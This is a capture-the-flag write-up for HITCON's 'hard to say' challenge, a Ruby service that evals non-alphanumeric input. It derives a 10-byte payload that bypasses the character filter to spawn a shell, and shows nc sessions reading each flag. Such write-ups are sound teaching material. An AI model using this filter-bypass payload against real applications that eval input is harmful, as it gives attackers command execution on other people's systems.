 ## hard to say - Misc 4x50 Problem - Writeup by Robert Xiao (@nneonneo)

### Description

> Ruby on Fails.<br>
> FLAG1: nc 54.199.215.185 9001<br>
> FLAG2: nc 54.199.215.185 9002<br>
> FLAG3: nc 54.199.215.185 9003<br>
> FLAG4: nc 54.199.215.185 9004<br>
> 
> hard_to_say-151ba63da9ef7f11bcbba93657805f85.rb

### Solution

This cute little Ruby program accepts a *non-alphanumeric* string of a certain maximum length and `eval`s it. So, our goal is just to write some non-alphanumeric Ruby shellcode. There are four problem instances, accepting 1024, 64, 36 and 10 byte inputs respectively and giving 50 points each. Since we want all the flags, we'll just focus on making a 10-byte shellcode.

Ruby has the backtick operator (``` `` ```) which lets us execute a shell command. Inside the backticks, Ruby also supports standard interpolation operators (`#{}`) which will run Ruby code and insert the result into the shell command string. Our goal is to get the shell command to equal `$0`, which will give us a usable interactive shell (since `$0` is set to `/bin/sh`). Normally we might do `` `$0` `` but since numbers are banned we'll create the `0` using Ruby code.

Ruby has a ton of global magic variables of the form `$<symbol>`. None of them have the value 0 by default. However, `$.`, the current input line number, is always equal to one since you're executing the first line inside an `eval` context. We can use that to create our desired zero with some bitwise operations: `~-$.` (negating gives -1, and inverting gives 0).

Putting that all together, then, we have the shellcode

    `$#{~-$.}`

which is exactly 10 bytes long. We use it to get all the flags:

    $ nc 54.199.215.185 9001
    Hi, I can say 1024 bytes :P
    `$#{~-$.}`
    I think size = 10 is ok to me.
    cat flag
    hitcon{what does the ruby say? @#$%!@&(%!#$&(%!@#$!$?...}

    $ nc 54.199.215.185 9002
    Hi, I can say 64 bytes :P
    `$#{~-$.}`
    I think size = 10 is ok to me.
    cat flag
    hitcon{Ruby in Peace m(_ _)m}

    $ nc 54.199.215.185 9003
    Hi, I can say 36 bytes :P
    `$#{~-$.}`
    I think size = 10 is ok to me.
    cat flag
    hitcon{My cats also know how to code in ruby :cat:}

    $ nc 54.199.215.185 9004
    Hi, I can say 10 bytes :P
    `$#{~-$.}`
    I think size = 10 is ok to me.
    cat flag
    hitcon{It's hard to say where ruby went wrong QwO}

(Note that, due to buffering, it is necessary to press Ctrl+D to flush the command input after typing `cat flag`).
